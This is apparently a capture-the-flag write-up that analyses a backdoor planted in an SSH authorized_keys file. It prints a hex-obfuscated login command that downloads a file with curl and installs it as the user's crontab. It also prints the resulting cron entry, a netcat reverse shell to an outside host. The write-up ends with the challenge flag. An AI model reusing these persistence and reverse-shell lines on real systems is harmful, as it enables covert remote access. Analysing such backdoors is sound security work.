

# Leonidas
## Description



## Solution

Using the provided SSH private key, it is possible to log in to `testuser`'s account on the `srv-test23.cypherfix.tcc` server.

```
$ ssh -i testuser testuser@srv-test23.cypherfix.tcc
```

Looking around and specifically at the `.ssh/authorized_keys` file reveals that before giving the SSH user a shell, the key's `command` option is set to evaluate an encoded command.

```
testuser@38c62c70b10e:~$ cat .ssh/authorized_keys 
no-user-rc,no-X11-forwarding,command="`#! /bin/bash`;eval $(echo 6375726c202d73202d4120274c656f6e69646173212049206861766520707265706172656420627265616b6661737420616e6420617465206865617274696c792e2e2e20466f7220746f6e696768742c2077652064696e6520696e2068656c6c2121205530633564324a48624442615657784655465661545646565a44645a5747513057564d784e4531556248424d565752445932706a64475177526b7057626a41392720687474703a2f2f31302e39392e32342e32343a38302f2e63726f6e202d6f202e63726f6e3b2063726f6e746162202e63726f6e20323e202f6465762f6e756c6c3b2f62696e2f62617368 | xxd -r -ps)" ssh-rsa AAAAB3N1yc2EAA...tvLoWQ== testuser@cypherfix.tcc
```

The command is shown decoded below. It issues an HTTP request to a remote server to download a file named `.cron` and replaces the user's crontab file with it. Only then, it starts `/bin/bash` to act as a regular shell.

```
curl -s -A 'Leonidas! I have prepared breakfast and ate heartily... For tonight, we dine in hell!! U0c5d2JHbDBaVWxFUFVaTVFVZDdZWGQ0WVMxNE1UbHBMVWRDY2pjdGQwRkpWbjA9' http://10.99.24.24:80/.cron -o .cron; crontab .cron 2> /dev/null;/bin/bash
```

Although not important for the challenge's solution, the `.cron` file's content is shown below. The command tries to establish a reverse shell to a remote server every 5 minutes.

```
testuser@38c62c70b10e:~$ cat .cron 
*/5 * * * * nc 203.0.113.144 44444 -e /bin/bash
```

Double decoding the base64-encoded string in the `curl` command's `-A` parameter (user agent) reveals the flag.

```
$ echo U0c5d2JHbDBaVWxFUFVaTVFVZDdZWGQ0WVMxNE1UbHBMVWRDY2pjdGQwRkpWbjA9 | base64 -d | base64 -d
HopliteID=FLAG{awxa-x19i-GBr7-wAIV}
```

## Flag

`FLAG{awxa-x19i-GBr7-wAIV}`